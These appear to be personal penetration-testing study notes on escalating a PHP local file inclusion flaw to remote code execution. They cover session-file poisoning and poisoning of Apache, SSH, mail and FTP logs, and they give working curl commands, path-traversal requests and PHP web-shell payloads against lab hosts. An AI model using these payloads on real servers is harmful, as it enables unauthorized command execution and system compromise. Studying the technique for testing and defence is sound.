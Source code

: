 We tryna write PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code to gain RCE.

### PHP Session Poisoning
Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows. The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a `PHPSESSID` cookie set to our session:
![[Pasted image 20250218232907.png]]
As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Let's try include this session file through the LFI vulnerability and view its contents

```bash
curl http://10.10.10.10/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

The next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:

```bash
curl http://10.10.10.10/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Exploit
```bash
curl http://10.10.10.10/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

### Server Log Poisoning
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs with a **PHP wbeshell**

```bash
curl http://adot.com/app/index.php?page=../../../../../var/log/apache2/access.log
```

Should have something like this
```bash
10.10.14.1 - - [19/Jun/2024:12:11:34 +0000] "GET /app/index.php?page=admin.php
HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101
Firefox/91.0"
```

We can edit the User-Agent to the following in Burp
```php
<?php echo system($_GET['cmd']); ?>
```

Now we can run commnads
```bash
curl http://adot.com/app/index.php?page=../../../../../var/log/apache2/access.log&cmd=whoami
```

We can the above with these logs as well
- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`
- 
We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the `ssh` or `ftp` services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the `mail` services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute. We can generalize this technique to any logs that log a parameter we control and that we can read through the LFI vulnerability
